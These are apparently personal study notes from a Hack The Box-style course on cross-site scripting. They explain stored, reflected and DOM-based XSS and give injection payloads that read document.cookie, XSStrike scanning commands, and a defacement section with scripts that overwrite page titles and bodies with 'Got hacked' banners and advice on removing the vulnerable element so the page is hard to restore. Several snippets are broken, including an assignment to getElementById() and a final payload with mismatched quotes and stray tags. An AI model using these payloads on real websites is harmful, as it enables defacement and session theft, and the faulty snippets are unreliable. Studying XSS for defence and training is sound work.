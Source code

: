 ## Cross-Site Scripting (XSS)
***
### There are 3 main types of XSS
* **Stored (Persistent)** = It occurs when the user input is stored on the back-end database and then displayed 
* **Reflected  (Non-Persistent)** = Occurs when user input is displayed on the page after being processed by the backend server, without being stored
* **DOM-based** =  And lastly also a non-persistent XSS type that occurs when inserted input is shown in the browser, being completely processed on the client-side

### Stored (Persistent) XSS
#### If we input the following payload on an input field that displays what we have inserted right after (e.g., to-do list), without any sanitization,  it will execute that payload (by displaying the alert), and also store on the back-end database
```HTML
<script>alert(window.origin)</script>
```
#### More examples:
#### Display the following HTML code in plaintext 
```HTML
<plaintext></plaintext>
```
#### Pop up the browser print dialog
```HTML
<script>print()</script>
```
### Non-persistent XSS
### Reflected XSS
#### Only gets processed by the back-end server and not stored
#### So after reloading the following payload would be deleted
```HTML
<script>alert(document.cookie)</script>
```
#### To be able to attack someone we can share the URL that we made our request with the chosen payload

### DOM-based XSS
#### Data is completely processed by the client-side unlike the Reflected and the Stored XSS
#### If we try the payload above (that uses the <script> tag) we will see that won't execute in some cases. This happens because the innerHTML function , for example, does not allow the use of <script> tags as a security feature.
```HTML
<img src="" onerror=alert(document.cookie)>
```
##### Note: The use of a '#', means that is a client-side parameter


### Automated Discovery
#### Web Application Vulnerability scanners such as Nessus, Burp Pro, or ZAP, by doing active and passive scanning.
#### Open-source tools: XSS Strike and Brute XSS


#### Installing XSS Strike
````Bash
$ git clone https://github.com/s0md3v/XSStrike.git
$ cd XSStrike
$ pip install -r requirements.txt
$ python xsstrike.py
````
#### Using XSS Strike
````Bash
$ pip install -r requirements.txt
$ python xsstrike.py -u "http://<SERVER_IP:PORT>/index.php?task=test"
````
### Manual Discovery
#### Open-source payload lists
* (https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md 'PayloadAllTheThings')
* (https://github.com/payloadbox/xss-payload-list 'PayloadBox')

### My Python script that sends payloads from a txt file and then compares with the page source to see if any payload was successful

### Defacing
#### Defacing a website is the act of changing its look for anyone who visits the website

### Defacement Elements
#### Some common HTML elements to change the main look of the page:
* Background Color:   document.body.style.background
* Background:  document.body.background
* Page title:  document.title
* Page text :  DOM.innerHTML
#### Also, after defacing we can remove the vulnerable element, such that it would be harder to reset the web page.

#### Changing Background
#### Color
```HTML
<script>document.body.style.background = "#FFFF"</script>
```
#### Image
```HTML
<script>document.body.style.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>
```

#### Changing Page Title
```HTML
<script>document.title = "1337"</script>
```

#### Changing Page Text
```HTML
<script>document.getElementById("id1337") = "Got hacked by 0xlightningG1337" </script>
```
#### OR using JQUERY
```
$("#id1337").html('Got hacked by 0xlightningG1337')
```
#### Changing entire HTML code of the main body
```HTML
<script>document.getElementsByTagName("body")[0].innerHTML = "Got hacked by 0xlightningG1337" </script>
```

```HTML
<script>document.getElementsByTagName("body")[0].innerHTML = "<center> <h1 style="color: green">Got hacked by 0xlightningG1337 </h1><img src="https://www.hackthebox.eu/images/logo-htb.svg" height="42px" alt="1337"></script>
</center>"</script>
```



##### **Notes**: 
- Many contemporary web applications employ cross-domain IFrames to manage user input, which helps protect the main application from XSS vulnerabilities. By using an IFrame, even if the form itself is vulnerable to XSS, the risk does not extend to the main application. Instead of displaying a fixed value like "1" in the alert box, showing the value of *'window.origin'* is more informative. Revealing the URL where the script is being executed. 
- It can also be injected into HTTP headers like the Cookie or User-Agent (i.e., when their values are displayed on the page)